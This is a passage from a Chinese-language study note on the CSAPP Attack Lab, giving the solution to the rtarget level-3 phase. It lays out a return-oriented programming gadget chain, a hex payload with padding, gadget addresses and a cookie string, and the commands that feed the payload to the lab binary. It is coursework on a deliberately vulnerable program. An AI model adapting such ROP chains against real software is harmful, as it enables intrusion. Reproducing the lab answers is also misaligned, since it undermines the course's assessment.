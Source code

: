 这段gadget合并起来的汇编代码为

```text
movq %rsp, %rax
movq %rax, %rdi
popq %rax #save offset into %rax
movl %eax, %edx
movl %edx, %ecx
movl %ecx, %esi
callq add_xy
movq %rax, %rdi
callq touch3
```

所以我们可以创建一个文件`ROP-L3.txt`，保存以下内容

```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* match 40 */
ad 1a 40 00 00 00 00 00 /* gadget 1: movq %rsp, %rax */
c5 19 40 00 00 00 00 00 /* gadget 2: movq %rax, %rdi */
ab 19 40 00 00 00 00 00 /* gadget 3 : popq %rax */
48 00 00 00 00 00 00 00 /* offset */
42 1a 40 00 00 00 00 00 /* gadget 4: movl %eax, %edx */
34 1a 40 00 00 00 00 00 /* gadget 5: movl %edx, %ecx */
13 1a 40 00 00 00 00 00 /* gadget 6: movl %ecx, %esi */
d6 19 40 00 00 00 00 00 /* add_xy */
c5 19 40 00 00 00 00 00 /* gadget 7: movq %rax, %rdi */
fa 18 40 00 00 00 00 00 /* touch 3 */
35 39 62 39 39 37 66 61 00 /* string */
```

最后运行命令`./hex2raw < ROP-L3.txt > ROP-L3-raw.txt`将其转化为字符串，然后运行`./rtarget -q < ROP-L3-raw.txt`

![img](pics/v2-224cc9f170da1e1565156d98f68d18b2_720w.jpg)



# [读书笔记]CSAPP：CacheLab


 **README：**[http://csapp.cs.cmu.edu/3e/README-cachelab](https://link.zhihu.com/?target=http%3A//csapp.cs.cmu.edu/3e/README-cachelab)
